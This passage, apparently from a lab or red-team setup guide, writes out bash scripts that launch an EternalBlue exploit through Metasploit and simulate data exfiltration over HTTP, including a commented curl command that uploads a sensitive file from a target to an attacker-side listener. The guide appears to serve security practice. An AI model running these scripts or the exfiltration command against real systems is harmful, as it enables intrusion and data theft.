 ```bash
echo "[*] Launching EternalBlue exploit"
msfconsole -r ~/attack-scripts/exploit/msf-eternal-blue.rc | tee $OUTPUT_DIR/exploit-log.txt
EOF

chmod +x ~/attack-scripts/exploit/run-eternalblue.sh
```

### 6. Post-Exploitation Script

```bash
tee ~/attack-scripts/post-exploit/data-exfil.sh > /dev/null <<'EOF'
#!/bin/bash

# Simulated Data Exfiltration
TARGET=$1
METHOD=${2:-http}
OUTPUT_DIR=~/attack-logs/$(date +%Y%m%d_%H%M%S)_exfil
mkdir -p $OUTPUT_DIR

if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip> [method: http|ftp|dns]"
    exit 1
fi

echo "[*] Simulating data exfiltration from $TARGET"
echo "[*] Method: $METHOD"

case $METHOD in
    http)
        # HTTP exfiltration simulation
        echo "[*] Setting up HTTP listener on port 8000..."
        python3 -m http.server 8000 &
        SERVER_PID=$!
        
        echo "[*] Simulate file transfer from target"
        # Would execute on target: curl -F "file=@sensitive_data.txt" http://192.168.1.50:8000/upload
        
        sleep 30
        kill $SERVER_PID
        ;;
    ftp)
        echo "[*] FTP exfiltration simulation..."
        # Configure FTP server
        ;;
    dns)
        echo "[*] DNS exfiltration simulation..."
        # DNS tunneling
        ;;
esac

echo "[+] Exfiltration simulation complete!"
EOF

chmod +x ~/attack-scripts/post-exploit/data-exfil.sh
```
